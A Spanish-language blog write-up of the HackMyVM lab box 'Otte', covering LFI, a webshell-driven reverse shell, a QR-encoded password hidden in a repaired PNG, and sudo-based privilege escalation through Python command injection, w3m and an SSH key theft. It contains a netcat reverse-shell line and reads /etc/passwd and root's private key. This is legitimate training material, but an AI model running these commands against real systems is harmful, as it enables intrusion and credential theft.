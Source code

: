 ```yaml
---
layout: post
title: "Write Up Otte. "
subtitle: "eJPTv2 Track "
category: Blog
tags: [Hard,Jounin,Linux,HMVM,SSH,GTFOBins,WireShark,Reconnaissance,QR,Protocols,eJPTv2]
image:
  path: /assets/img/otte/otte.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance

### Ping Sweep


```bash
sudo arp-scan -I ens33 --localnet
```

![list](/assets/img/otte/1.png){:.lead width="800" height="100" loading="lazy"}


### Nmap


```bash
nmap --open -p- -Pn -n -T4 -vvv -n 198.168.1.43 -oN allports
```


![list](/assets/img/otte/2.png){:.lead width="800" height="100" loading="lazy"}



### Services and Versions


```bash
nmap -sVC -Pn -n -p21,22,80 198.168.1.43 -oN target
```

![list](/assets/img/otte/3.png){:.lead width="800" height="100" loading="lazy"}


Esto indica algo de siemmes y buscamos en internet eso es algo que causa curiosidad.


![list](/assets/img/otte/4.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Eso significa que debemos de autenticarnos como root, es parte del  formulario de login de puuerto 80 por lo que ya nos hace pensar que debemos buscar una pass.


***

## Vulnerability Analysis and Expltation


Como podemos conectarnos a FTP como el usuario **anonymous**, en el cual encontramos una nota que pone **Hi thomas ! I put on you personal folder the php code you asked me,See you later**.


### HTTP TCP-80


Como sospechabamos nesesitamos password para acceder a la pagina completamente, siguiendo la pista, busqucamos las credenciales predeterminadas para un enrutador [Siemens], comohay muchas despuesde de intentar muchas veces **root:zP2wxY4uE**.


![list](/assets/img/otte/5.png){:.lead width="800" height="100" loading="lazy"}


[Siemens]: https://www.192-168-1-1-ip.co/router/siemens/siemens/17622/


![list](/assets/img/otte/6.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Fuzzeamos para buscar directorios o archivos interesntes.


Encontramos algunos archivos que son **/index.php,/image,/config.php,/thinkgeek.php**, no tenemos mas directorios entonces , aquide bemos pobtara si estos archivos **php** son vulnerables a **LFI**.


![list](/assets/img/otte/7.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El parametro **file** es suceptible para **LFI**.


![list](/assets/img/otte/8.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Buscamos el archivo **/etc/passwd** y encontramos los usuarios **laetitia** y **cedric**.


La sugerencia de note.txt, suguiere que en **/home/thomas/*.php** hay archivos que se ejecutan y como el  servidor ejecuta php fuzzeamos por esa extension.


![list](/assets/img/otte/9.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El archivo se llama **shell.php**.


![list](/assets/img/otte/10.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Volvemos a repetir el fuzzing, el paramtro es suseptible son **command** y **file**.


Con esto ya somos capaces de otorgarnos una reverse-shell como  elusuario **www-data**, no olvidarnos de ponernos a la escucha con netcat.


![list](/assets/img/otte/11.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/otte/10.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Despues de Husmear, en **/var/www/html/**,  no tenemos  nada nos movemos al directorio de  **/home/thomas/** y vemos que podemos leer **nightmare.txt**, que pone **who is the son of a bitch who replaced the signature on my file with fucking XXX?! I need to find the original signature!**, y tambien hay un archivvo **important_file** que nos vamos a decargar anuestra maquina para analizarlo.


Me olvide sacar captura pero el archivo esta como corruto o alguien lo edito por eso tiene tres XXX, estos corresponde a los 
Los **magic numbers** en archivos de Linux son secuencias de bytes específicas que se utilizan para identificar el tipo o formato de un archivo. Estos números mágicos suelen encontrarse en las primeras partes de un archivo y sirven como marcas distintivas que permiten a los programas y utilidades del sistema operativo identificar rápidamente el tipo de contenido que contiene el archivo.


Despues de pobra algunos remmplazamos XXX por PNG entonces el archivo es una imagen, utilizaremos CyberChef para procesar el archivo PNG y obtener un código QR.


![list](/assets/img/otte/82.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
QR que pone conduce a un [link] y ahi pone **thomas:youareonthegoodwaybro**.

[link]: https://allqrcodes.hosting.unitag.io/a/SVxQdM?domain=eqrcode.com


![list](/assets/img/otte/14.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/otte/15.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ya podemos conectarnos por ssh como thomas.


***

## Escalation Privileges


Primero, ejecutamos el comando **id** en Linux para obtener información sobre la identificación del usuario actual y los grupos a los que pertenece, ademas ejecutaremos **uname -a** y **lsb_release -a** para obtener información del sistema, verificaremossi otro usurio tiene permisos sudores con **sudo -l**, además, buscamos binarios con permisos **SUID** y tareas **Cron** en busca de posibles puntos de entrada. 


Si no encontramos resultados significativos con las acciones anteriores, procedemos a subir los binarios **linpeas** y **pspy** .etc, al sistema. Estos binarios nos ayudarán a realizar un análisis de reconocimiento más exhaustivo, identificando posibles vulnerabilidades o actividades sospechosas en el sistema.


También realizamos un análisis manual del sistema, buscando configuraciones inseguras, archivos sensibles o cualquier otra anomalía que pueda indicar una posible vulnerabilidad o actividad maliciosa.


Sudo -l nos dice, que el usuario **laetitia** tiene permisos para ejecutar el script **simpler.py** con Python 3, pasando cualquier argumento (*) en el directorio **/home/laetitia**, sin contraseña, pero debemos de ver primero que se va a ejecutar.


![list](/assets/img/otte/16.png){:.lead width="800" height="100" loading="lazy"}


Al ejecutar simpler.py y, cuando te solicite una dirección IP, introduce un comando de shell. Esta shell no es interactiva, por lo que necesitamos ejecutar 'nc 192.168.1.43 443 -e /bin/bash' para obtener otra shell inversa que sí sea interactiva.


![list](/assets/img/otte/17.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/otte/18.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Aunque somo el  usuario **leticia**, vamos aespaunear un shel interactiva con netcat.


Sudo -l, nodice que el usuario **cedric** puede ejcutar **/usr/bin/w3m** sin nesesidad deproporcionar contraseña, pero tambien vamos a ver   de que se trata eso.


![list](/assets/img/otte/19.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/otte/21.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Loque hace **/usr/bin/w3m** es tratar de abrir un archivo que tarta de obtener de u servidor web por lo que debemos otorgarnos una shell con `!/bin/bash`.


Ahora que somos **cedirc**, la shell es inestable asi que vamos a **/home/cedric/.ssh/**, y autorizamos a **id_rsa.pub** a authorized_keys, para conectarnos comodemate por ssh.


Por ultimo sudo -l, nos dice que todo pueden ejecutar **/usr/bin/mmwatch** sin nesesidad de proporcionar contraseña, despues de ver el código de mmwatch, podemos leer **id_rsa** de root a través de **mmwatch**.


![list](/assets/img/otte/22.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/otte/25.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos conectamos por ssh a root con la **id_rsa**, y ya podemos ver la flag en el escritorio de root.


***

```bash
🎉 Felicitaciones ya has comprometido Otte de Hack My VM 🎉
```
{:.centered}

***

Back to [Certification eJPTv2 ](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

